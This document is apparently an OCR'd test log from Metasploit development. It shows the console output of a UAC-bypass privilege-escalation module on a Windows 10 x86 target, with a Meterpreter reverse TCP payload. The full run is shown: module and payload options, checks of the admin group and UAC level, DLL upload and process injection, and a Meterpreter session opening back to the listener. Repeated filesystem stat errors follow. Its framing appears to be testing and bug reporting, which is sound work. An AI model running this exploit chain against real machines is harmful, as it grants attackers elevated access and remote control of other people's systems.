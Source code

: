 ```

Module options (exploit/windows/local/bypassuac_injection_winsxs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <MSF_IP>         yes       The listen address
   LPORT     30010            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


> run -j
[*] Exploit running as background job.
[*] resource (/home/msfuser/rapid7/test_artifacts/test_rc/windows-meterpreter-reverse_tcp-192x168x134x160-30009.rc)> Ruby Code (13 bytes)
[*] Started reverse TCP handler on <MSF_IP>:30010 
[*] resource (/home/msfuser/rapid7/test_artifacts/test_rc/windows-meterpreter-reverse_tcp-192x168x134x160-30009.rc)> Ruby Code (12 bytes)
[+] Windows 10 (Build 10586). may be vulnerable.
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Payload DLL 18944 bytes long being uploaded...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[*] Injecting  into process ID 3476
[*] Opening process 3476
[*] Injecting struct into 3476
[*] Executing payload
[+] Successfully injected payload in to process: 3476
[*] Sending stage (957487 bytes) to <Win10x86_IP>
[*] Meterpreter session 2 opened (<MSF_IP>:30010 -> <Win10x86_IP>:50078) at 2017-10-03 12:19:03 -0700
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
[-] Error => Rex::Post::Meterpreter::RequestError - stdapi_fs_stat: Operation failed: The system cannot find the path specified.
```